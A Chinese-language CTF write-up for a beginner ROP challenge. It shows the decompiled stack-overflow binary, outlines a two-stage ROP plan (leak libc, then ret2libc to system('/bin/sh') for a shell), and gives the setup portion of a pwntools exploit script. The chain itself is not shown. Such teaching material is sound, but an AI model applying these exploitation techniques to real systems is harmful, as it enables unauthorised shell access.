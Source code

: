 `ROP`攻击的入门级别题目，非常适合新手学习。反汇编分析程序：

```c
int __cdecl main(int argc, const char **argv, const char **envp){
  int v3; // eax
  char buf; // [rsp+0h] [rbp-50h]
  int v6; // [rsp+38h] [rbp-18h]
  int fd[2]; // [rsp+48h] [rbp-8h]

  memset(&buf, 0, 0x38uLL);
  v6 = 0;
  setbuf(_bss_start, 0LL);
  v3 = open("./some_life_experience", 0);
  *fd = v3;
  read(v3, &buf, 0x3CuLL);
  puts(&buf);
  read(0, &buf, 0x100uLL);
  return 0;
}
```

很明显的栈溢出，由于开了`ASLR`地址随机化保护，因此需要构造两个`ROP`链，第一个`ROP`链泄漏`libc`地址，第二个`ROP`用于 `ret2libc`，执行`system("/bin/sh")`获取shell。

至于`ROP`攻击，是比较基础的知识点，百度一下就能明白，这里就不赘述啦~

#### exp

```python
#!/usr/bin/python
#__author__:TaQini

from pwn import *

local_file  = './ROP_LEVEL0'
local_libc  = '/lib/x86_64-linux-gnu/libc.so.6'
remote_libc = '../libc.so.6'

if len(sys.argv) == 1:
    p = process(local_file)
    libc = ELF(local_libc)
elif len(sys.argv) > 1:
    if len(sys.argv) == 3:
        host = sys.argv[1]
        port = sys.argv[2]
    else:
        host, port = sys.argv[1].split(':')
    p = remote(host, port)
    libc = ELF(remote_libc)

elf = ELF(local_file)

context.log_level = 'debug'
context.arch = elf.arch

se      = lambda data               :p.send(data) 
sa      = lambda delim,data         :p.sendafter(delim, data)
sl      = lambda data               :p.sendline(data)
sla     = lambda delim,data         :p.sendlineafter(delim, data)
sea     = lambda delim,data         :p.sendafter(delim, data)
rc      = lambda numb=4096          :p.recv(numb)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
uu32    = lambda data               :u32(data.ljust(4, '\0'))
uu64    = lambda data               :u64(data.ljust(8, '\0'))
info_addr = lambda tag, addr        :p.info(tag + ': {:#x}'.format(addr))

```